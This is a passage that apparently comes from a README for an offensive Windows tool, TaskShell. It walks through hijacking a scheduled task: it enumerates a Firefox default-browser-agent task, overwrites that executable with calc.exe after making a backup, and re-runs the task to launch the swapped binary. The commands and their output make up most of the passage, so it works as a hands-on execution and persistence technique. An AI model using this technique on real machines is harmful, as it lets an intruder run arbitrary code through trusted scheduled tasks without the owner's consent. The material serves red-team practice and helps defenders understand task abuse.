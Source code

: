 This one is pretty straightforward, all that is needed is to find a task with an action that launches a program and just swap the target executable with your own.

For example, let's examine this scheduled task associated with FireFox:

```
.\TaskShell.exe -h localhost -s "Firefox"
[+] Authenticating using current user's token

============================
[+] Path: \Mozilla\Firefox Default Browser Agent E7CF176E110C211B
[+] Principal: COMMANDO\riccardo
[+] Action: C:\Program Files (x86)\Mozilla Firefox\default-browser-agent.exe do-task "E7CF176E110C211B"
At 12:56 PM every day
```

It would be pretty trivial to swap `default-browser-agent.exe` with an arbitrary executable, and launch the task again.

Let's quickly experiment that using `calc.exe`:

```
C:\Program Files (x86)\Mozilla Firefox>dir default-browser-agent.exe
 Volume in drive C has no label.
 Volume Serial Number is 62E8-311A

 Directory of C:\Program Files (x86)\Mozilla Firefox

01/09/2021  10:44 AM           625,120 default-browser-agent.exe
               1 File(s)        625,120 bytes
               0 Dir(s)   1,178,636,288 bytes free

COMMANDO Mon 01/25/2021  9:57:07.03
C:\Program Files (x86)\Mozilla Firefox>copy default-browser-agent.exe default-browser-agent.exe.bak
        1 file(s) copied.

COMMANDO Mon 01/25/2021  9:57:21.20
C:\Program Files (x86)\Mozilla Firefox>copy C:\windows\System32\calc.exe  default-browser-agent.exe
Overwrite default-browser-agent.exe? (Yes/No/All): Yes
        1 file(s) copied.

```

Let's execute the task again (`-r` flag):

```
.\TaskShell.exe -h localhost -t "\Mozilla\Firefox Default Browser Agent E7CF176E110C211B" -
r
[+] Authenticating using current user's token

============================
[+] Path: \Mozilla\Firefox Default Browser Agent E7CF176E110C211B
[+] Principal: COMMANDO\riccardo
[+] Action: C:\Program Files (x86)\Mozilla Firefox\default-browser-agent.exe do-task "E7CF176E110C211B"
At 12:56 PM every day
```
